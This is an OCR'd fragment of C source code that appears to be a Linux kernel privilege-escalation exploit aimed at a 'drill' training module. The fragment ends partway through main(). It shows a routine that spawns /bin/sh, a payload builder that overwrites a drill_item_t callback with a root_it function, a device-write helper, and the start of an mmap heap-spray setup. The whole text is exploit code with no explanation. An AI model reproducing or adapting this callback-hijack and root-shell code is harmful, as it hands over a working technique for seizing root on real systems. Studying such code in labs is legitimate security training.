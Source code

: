         pid = fork();

        if (pid < 0) {
            perror("[-] fork()");
            return;
        }

        if (pid == 0) {
            execve("/bin/sh", args, NULL); /* Should not return */
            perror("[-] execve");
            exit(EXIT_FAILURE);
        }

        if (wait(&status) < 0)
            perror("[-] wait");
    }

    void init_payload(char *p, size_t size)
    {
        struct drill_item_t *item = (struct drill_item_t *)p;

        memset(p, 0x41, size);

        item->callback = (uint64_t)root_it;

        printf("[+] payload:\n");
        printf("\tstart at %p\n", p);
        printf("\tcallback %lx\n", item->callback);
    }

    int act(int fd, char code)
    {
        ssize_t bytes = 0;

        bytes = write(fd, &code, 1);
        if (bytes <= 0) {
            perror("[-] write");
            return EXIT_FAILURE;
        }

        return EXIT_SUCCESS;
    }

    int main(void)
    {
        unsigned char *spray_data = NULL;
        int ret = EXIT_FAILURE;
        int fd = -1;

        printf("begin as: uid=%d, euid=%d\n", getuid(), geteuid());

        spray_data = mmap(NULL, MMAP_SZ, PROT_READ | PROT_WRITE,
                        MAP_SHARED | MAP_ANONYMOUS, -1, 0);
        if (spray_data == MAP_FAILED) {
            perror("[-] mmap failed");
            goto end;
        }
